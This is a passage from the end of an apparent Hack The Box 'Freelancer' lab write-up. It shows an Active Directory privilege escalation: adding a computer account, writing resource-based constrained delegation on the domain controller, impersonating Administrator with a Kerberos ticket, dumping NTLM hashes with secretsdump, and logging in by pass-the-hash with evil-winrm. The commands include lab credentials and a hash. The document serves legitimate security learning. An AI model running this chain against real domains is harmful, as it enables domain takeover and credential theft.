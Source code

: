 ```
impacket-addcomputer -computer-name 'KSCORPIO$' -computer-pass 'LETSgetr00t!' -dc-host freelancer.htb -domain-netbios freelancer.htb freelancer.htb/lorra199:'PWN3D#l0rr@Armessa199'
```

![GenericWrite privilege](/images/HTB-Freelancer/impacket_addcomputer.png)

2. We modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the domain controller (`DC$`) to include the computer object `KSCORPIO$` to impersonate other accounts against `DC$`.

```
impacket-rbcd -delegate-from 'KSCORPIO$' -delegate-to 'DC$' -dc-ip 10.10.11.5 -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
```

![Delegation modification](/images/HTB-Freelancer/rbcd_delegation.png)

3. We obtain a Kerberos ticket for the CIFS service on the domain controller (`dc.freelancer.htb`), while impersonating **Administrator**. The ticket is what allows us to perform various operations on behalf on the administrator account on the target machine.

```
faketime -f +5h impacket-getST -spn 'cifs/dc.freelancer.htb' -impersonate Administrator -dc-ip 10.10.11.5 freelancer.htb/KSCORPIO$:'LETSgetr00t!'
```

> The SPN `cifs/dc.freelancer.htb` indicates that we want to authenticate to the file sharing service on the domain controller. The CIFS service is essentially an extension of the SMB protocol. _Read more about it [here](https://www.upguard.com/blog/cifs)._

![Kerberos ticket](/images/HTB-Freelancer/Kerberos_ticket.png)

4. In order to make Impacket use our ticket we set an environment variable pointing to the cache file.

```
export KRB5CCNAME=Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache
```
![environmental variable for kerberos ticket use](/images/HTB-Freelancer/env_var.png)


5. Now we can dump the NTLM hashes from the domain controller. We obtain many hashes including the administrator one.

```
faketime -f +5h impacket-secretsdump 'freelancer.htb/Administrator@DC.freelancer.htb' -k -no-pass -dc-ip 10.10.11.5 -target-ip 10.10.11.5 -just-dc-ntlm
```

> We use `+5h` with faketime because of the clock-skew that can create synchronization issues. This line is from the nmap output: `clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m59s`.

![Kerberos ticket](/images/HTB-Freelancer/hashes_list.png)

6. Finally, we login with the Administrator hash using evil-winrm and the root flag is on the Desktop.

```
evil-winrm -i freelancer.htb -u administrator -H '0039318f1e8274633445bce32ad1a290'
```

![Kerberos ticket](/images/HTB-Freelancer/root_flag.png)

This machine was really a banger for me! It was my first time working with memory dumps and I now have a better understanding of what RBCD is. I hope you were able to learn some things and thanks for taking the time to read my write up!

